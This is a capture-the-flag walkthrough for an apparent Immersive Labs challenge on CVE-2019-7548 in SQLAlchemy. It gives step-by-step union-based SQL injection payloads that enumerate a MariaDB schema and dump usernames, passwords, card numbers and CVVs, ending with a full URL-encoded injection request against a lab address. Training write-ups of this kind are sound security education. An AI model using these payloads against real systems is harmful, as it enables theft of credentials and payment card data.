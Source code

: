 ```yaml
---
date: 2025-01-09
categories: [CTF, ImmersiveLabs]
title: "IML - CVE-2019-7548 (SQLAlchemy)"
tags: ['john the ripper', 'privilege escalation', 'rce', 'sqli']

description: "CVE-2019-7548 (SQLAlchemy) - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - CVE-2019-7548 (SQLAlchemy)


![image1](../resources/104530e8ce9144b8a7ca03ac32614d0e.png)
- Firstly we can see that there is a parameter that might be vulnerable to SQLi

- To test it, we can use a ' to break it


![image2](../resources/d8bf8d75a94a4170a70d85c6b3ba5aad.png)

- From here I use the order by query to find out how many columns the table has (trial and error)
- It errors at 9 so the table has 8 columns


![image3](../resources/984207172f12488180dea99b65e72f19.png)

- Now we can do union select 1,2,3,4,5,6,7,8 because the UNION has to have the same number of columns as the current table
- It was trial and error to find where the values were being reflected but I found it on the last page (221)


![image4](../resources/45d4e42d268e4f15b847b63869a89c21.png)

- Now we know where it is being reflected, we can get some information

- First find the type of DB and version:
  
```bash
union select 1,2,3,4,5,6,7,@@version

```

![image5](../resources/f1c0775cca67428696907ffe913c20f1.png)


![image6](../resources/8044a757cc3b464fb34e869b2fc7a778.png)

- Answering the questions:


![image7](../resources/a2dd9612bc6748a585a84b6c592ff62f.png)

- First let's get the database name - and because it's MariaDB we use:
  
```bash
database()

```

![image8](../resources/7f234af64aac45ad8e1ff0f5c947d401.png)


![image9](../resources/dec72510ef8b447db6c52a9e5dd96063.png)

- We can now enumerate the tables with:
  
```bash
union select 1,2,3,4,5,6,7,group_concat(table_name) from information_schema.tables where table_schema="website"

```

![image10](../resources/6b0ecc57e49041fcb53f7cfe8362e3c6.png)


![image11](../resources/82862971d33e4232ac1702f82d18e392.png)

- From here we get the tables <u>transactions and users</u>

- First let's enumerate the table users:
  
```bash
union select 1,2,3,4,5,6,7,group_concat(column_name) from information_schema.columns where table_name="users"

```

![image12](../resources/145d79b48ef74c3dbcb21e5f71d3d5df.png)


![image13](../resources/555d41cda3044677835d147a5a471cca.png)

- Here we get the columns
id,firstName,lastName,country,username,email,password,cardNumber,cardIssuer,cardExpiry,cardCVV

- To read the columns we do:
  
```bash
union select 1,2,3,4,5,6,7,group_concat(username,0x2b,password) from users

```
This will read and concat the two columns: username and password. The 0x2b is a delimeter to make it more easily readable


![image14](../resources/4b86829c5e38449f975d1b0dafc6b90e.png)


![image15](../resources/7a89bc3750c74a5ab5453c7f45f549d0.png)

- To narrow it down do:
  
```bash
union select 1,2,3,4,5,6,7,group_concat(username,0x2b,password) from users where username="ywalsh"

```

![image16](../resources/de5d883935e541b8ac32e77470a54c04.png)


![image17](../resources/a120b72b04354575bee352859d7e0a86.png)
- Use the following:

```bash
union select 1,2,3,4,5,6,7,group_concat(firstName,lastName,0x2b,cardNumber) from users where lastname="Park" and firstName="Shelly"

```

![image18](../resources/d61564005d864108a738b68e5f912633.png)

- Use the following:
  
```bash
union select 1,2,3,4,5,6,7,group_concat(firstName,lastName,0x2b,cardCVV) from users where lastname="Elliott" and firstName="John"

```

![image19](../resources/c6b6ddc750aa47ba864f1e159c50b957.png)


![image20](../resources/6ff53b6b417f46ac9ddf011edf26bc22.png)

Full URL for this is:

`http://10.102.16.9/?page=221&group=email%20union%20select%201,2,3,4,5,6,7,group_concat(firstName,lastName,0x2b,cardCVV)%20from%20users%20where%20lastname=%22Elliott%22%20and%20firstName=%22John%22`
